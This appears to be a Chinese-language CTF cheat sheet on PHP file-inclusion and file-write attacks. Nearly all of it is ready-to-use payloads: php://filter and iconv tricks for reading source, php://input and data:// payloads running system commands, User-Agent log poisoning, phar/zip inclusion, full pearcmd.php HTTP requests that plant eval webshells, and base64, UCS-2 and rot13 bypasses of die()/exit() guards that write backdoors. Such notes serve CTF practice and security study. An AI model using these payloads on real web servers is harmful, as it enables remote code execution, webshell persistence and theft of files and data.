

allow_url_include=off默认关闭，开发者使用文件包含往往会开启
allow_url_fopen=on默认开启，一般不用管
<https://blog.csdn.net/weixin_44508748/article/details/108162951>
不要忘了远程包含
^
## **php伪协议 文件包含读本地php文件源代码**
php://filter
```
include xx;
@include(xx);
include php://filter/read=convert.base64-encode/resource=flag.php

包含返回flag.php文件源码字符串的是base64编码内容
进行一次base64解码即可看到源代码

如果是根据名称匹配包含php文件
只需要把名称参数换成php://filter/read=convert.base64-encode/resource=flag即可。

也可中间加个index等字符也可以，绕过一些包含字符匹配。
php://filter/read=convert.base64-encode/index/resource=flag
php://filter/ctfshow/resource=flag.php
```
其他编码方式
```
file=php://filter/resource=flag.php
php://filter/ctfshow/resource=flag.php
file=php://filter/read=convert.quoted-printable-encode/resource=/var/www/html/flag.php
?filename=php://filter/convert.iconv.UTF-7.UCS-4*/resource=flag.php


UCS-2BE编码：
file=php://filter/read=convert.iconv.UCS-2LE.UCS-2BE/resource=hack.php

编码
<?php
$re = iconv("UCS-2LE","UCS-2BE", '<?php @eval($_GET[1]);?>');
echo $re;
?>
得?<hp pe@av(l_$EG[T]1;)>?


解码：
$encoded_string = // 这里应该是以 UCS-2LE 编码的原始字符串
$decoded_string = iconv("UCS-2LE", "UCS-2BE", $encoded_string);
echo $decoded_string;
```

这里还可以换成其他php支持的编码，格式保持即可
```
 convert.iconv.<input-encoding>.<output-encoding> 
 or
 convert.iconv.<input-encoding>/<output-encoding>
```

```
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
EUC-JP*
SJIS*
eucJP-win*
SJIS-win*
ISO-2022-JP
ISO-2022-JP-MS
CP932
CP51932
SJIS-mac (alias: MacJapanese)
SJIS-Mobile#DOCOMO (alias: SJIS-DOCOMO)
SJIS-Mobile#KDDI (alias: SJIS-KDDI)
SJIS-Mobile#SOFTBANK (alias: SJIS-SOFTBANK)
UTF-8-Mobile#DOCOMO (alias: UTF-8-DOCOMO)
UTF-8-Mobile#KDDI-A
UTF-8-Mobile#KDDI-B (alias: UTF-8-KDDI)
UTF-8-Mobile#SOFTBANK (alias: UTF-8-SOFTBANK)
ISO-2022-JP-MOBILE#KDDI (alias: ISO-2022-JP-KDDI)
JIS
JIS-ms
CP50220
CP50220raw
CP50221
CP50222
ISO-8859-1*
ISO-8859-2*
ISO-8859-3*
ISO-8859-4*
ISO-8859-5*
ISO-8859-6*
ISO-8859-7*
ISO-8859-8*
ISO-8859-9*
ISO-8859-10*
ISO-8859-13*
ISO-8859-14*
ISO-8859-15*
ISO-8859-16*
byte2be
byte2le
byte4be
byte4le
BASE64
HTML-ENTITIES (alias: HTML)
7bit
8bit
EUC-CN*
CP936
GB18030
HZ
EUC-TW*
CP950
BIG-5*
EUC-KR*
UHC (alias: CP949)
ISO-2022-KR
Windows-1251 (alias: CP1251)
Windows-1252 (alias: CP1252)
CP866 (alias: IBM866)
KOI8-R*
KOI8-U*
ArmSCII-8 
```

^
## **compress.zlib包含文件php源代码**
```
?file=compress.zlib://flag.php
```


^
## **php伪协议 文件包含注入php的php代码**

1. php://input 自动包含POST请求体(需要第一allow_url_include开启)
```
include php://input
post请求的请求体参数xx=<?php system(); ?>
请求体直接就一个<?php system(); ?>也可。

如：
?file=Php://input  这里大写可以绕过过滤php
再post：<?php system("tac flag.php");?>

```

2. data://text/plain直接包含代码内容:(需要两个allow开启)
```
include data://text/plain,<?php phpinfo(); ?>

file_get_contents('data://text/plain,welcome to the zjctf','r')
即为welcome to the zjctf

file_get_contents($_GET['2333']) === 'todat is a happy day'
则?2333=data://text/plain;base64,dG9kYXQgaXMgYSBoYXBweSBkYXk=


代码执行获取flag
payload：
?c=data://text/plain,<?php system('cat f*');?>
?c=data://text/plain,<?=system("tac%20flag.php");?>

防止过滤一下：?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZionKTs/Pg==
但是结尾有.php的情况：include($c.".php"); 编码后会失效。
如果= 也过滤，调整空格数量，直至base64后没有=，末尾会是+号，或直接把=去除。
如果=+也过滤了，<?php    system("ls");     不要闭合?>这样的base64末尾没有+。
如果=+也过滤了，<?php    system("ls") ?>   去掉;这样的base64末尾没有+。
```

^
## **日志包含**
考伪协议绕过也可能直接日志包含
?file=/var/log/nginx/access.log
修改UA为：<?php @eval($_REQUEST[1])?>
1=system("ls");
1=system("tac fl0g.php");


^
## **php伪协议 文件包含自动解压文件再包含**
```
phar://D:/phpinfo.zip/phpinfo.txt
zip://D:\\phpinfo.jpg%23phpinfo.txt

上传了个压缩包，压缩包中phpinfo.txt中文件为<?php system($_GET[a]); ?>
```


## **pearcmd.php文件包含**
已知文件包含：include $_GET['c'].".php";
裸文件包含, 没有上传点，使用php-fpm的方式运行可尝试包含pearcmd.php文件，直接写木马。
包含pearcmd.php用?c=pearcmd
同时写木马到目录下的test.php
```
GET /index.php?+config-create+/&c=pearcmd&/<?=@eval($_POST['cmd']);?>+/var/www/html/test.php HTTP/1.1
```

在/var/www/html下写入webshell
```
POST /test.php HTTP/1.1

Content-Type: application/x-www-form-urlencoded
Content-Length: 26

cmd=system("cat 36d.php");
```
也可<https://www.cnblogs.com/Egcrying/p/17665041.html>

^
场景2：
```
function waf($path){
    $path = str_replace(".","",$path);
    return preg_match("/^[a-z]+/",$path);
}

if(waf($_POST[1])){
    include "file://".$_POST[1];
}
```
如果知道pearcmd.php路径，要求字母开头不能直接/usr/，用localhost+根路径
```
GIT写木马
/?+config-create+/<?=eval($_POST[2]);?>+/var/www/html/a.php 

POST包含pearcmd.php
1=localhost/usr/local/lib/php/pearcmd.php
```


^
^
^
## **php伪协议写文件**
### **file_put_contents()场景写文件漏洞**
#### **1、写后门过滤绕过**
对于
```
if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        die('hacker!!!');
}
file_put_contents("index.php", $input)
```
可以传入绕过
```
<?=`ls\t/*`?>
<?=`cat\t/flllllll1112222222lag`?>
```

^
#### **2、伪协议写后门绕过**
如果是第一个参数可控，使用伪协议。
```
$file = $_GET['file'];
$content = $_POST['content'];

$file = str_replace("php", "???", $file);
$file = str_replace("data", "???", $file);
$file = str_replace(":", "???", $file);
$file = str_replace(".", "???", $file);

file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
```
绕过替换，$file使用双重url编码。
绕过die()函数，$file使用base64伪协议。将die()过滤成die无效字符。
```
?file=php://filter/write=convert.base64-decode/resource=jiuzhen.php
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%36%61%25%36%39%25%37%35%25%37%61%25%36%38%25%36%35%25%36%65%25%32%65%25%37%30%25%36%38%25%37%30
```
POST传递：
```
content=<?php system(ls);?>   //base64编码—下
content=PD9waHAgc3lzdGVtKGxzKTs/Pg==
content=aaPD9waHAgc3lzdGVtKGxzKTs/Pg== //加两个字符
//<?php die('大佬别秀了');?>被base64过滤后变成phpdie，加两个字符变成4的倍数。
```
访问jiuzhen.php即可。

^
#### **3、伪协议写后门绕过**
```
$file=$_GET['file'];
$contents=$_POST['contents'];

function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}

filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```
绕过die()函数，$file使用base64伪协议。将die()过滤成die无效字符。
但是这里过滤了base64，这里使用iconv.UCS-2LE.UCS-2BE编码解码。
```
?file=php://filter/write=convert.base64-decode/resource=jiuzhen.php
?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=hack.php
```
```
<?php
$re = iconv("UCS-2LE","UCS-2BE", '<?php @eval($_GET[1]);?>');
echo $re;
?>
得?<hp pe@av(l_$EG[T]1;)>?
```
POST传入：
```
contents=?<hp pe@av(l_$EG[T]1;)>?
```
访问即可
```
/hack.php?1=system('ls');
```

^
#### **4、伪协议写后门绕过**

```
$content = $_GET[content];
file_put_contents($content,'<?php exit();'.$content);
```
需要绕过exit();
```
php://filter/write=string.rot13|<?cuc cucvasb();?>/resource=shell.php
```


